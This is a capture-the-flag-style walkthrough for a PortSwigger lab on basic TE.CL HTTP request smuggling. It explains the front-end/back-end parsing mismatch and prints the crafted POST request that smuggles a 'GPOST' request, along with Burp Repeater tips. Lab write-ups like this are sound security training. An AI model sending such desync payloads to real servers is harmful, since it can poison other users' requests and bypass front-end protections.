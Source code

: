#  HTTP - request smuggling, basic TE.CL vulnerability

## 📌 Lab Details
- **Title**: HTTP request smuggling, basic TE.CL vulnerability
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/a6aecbc5c1d7f95e7512642a6f11fcb8c5d568f7cd57ae0ce60a08c7140583b3?referrer=%2fweb-security%2frequest-smuggling%2flab-basic-te-cl

## 🔍 Summary
This lab demonstrates a **Transfer-Encoding: chunked (TE) / Content-Length (CL)** mismatch vulnerability. The front-end server supports **chunked encoding**, but the back-end server does **not**.
By crafting a malicious request with both `Transfer-Encoding: chunked` and `Content-Length` headers, we can smuggle an extra request to the back-end server, causing it to misinterpret the HTTP method of the next request (e.g., `GPOST`).

## 🛠 Steps to Solve
1. Intercept the request and send it to **Burp Repeater**.
2. Now, issue the following request twice:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-length: 4
   Transfer-Encoding: chunked

   5c
   GPOST / HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0


   ```
3. The second response should say: `Unrecognized method GPOST`.  

## 📖 Key Takeaways
- **TE.CL vulnerabilities** happen when front-end and back-end servers parse request length differently.
- Adding both `Transfer-Encoding: chunked` and `Content-Length` causes confusion between servers.
- You can smuggle hidden requests by **manipulating chunk sizes** and **inserting CRLF sequences (`\r\n\r\n`)**.
- Always **disable** “Update Content-Length” in Burp when testing smuggling, or Burp will overwrite your crafted lengths.  

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/31ef7b3e-27e0-4ec8-b16c-653eb7b45471" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/fbbb110f-f879-4788-a58c-b672e96fd4e4" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/fce744e2-4917-405b-b634-d98d302cb7e0" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/6b5fce6a-e458-473f-bfa8-865d979b931c" />
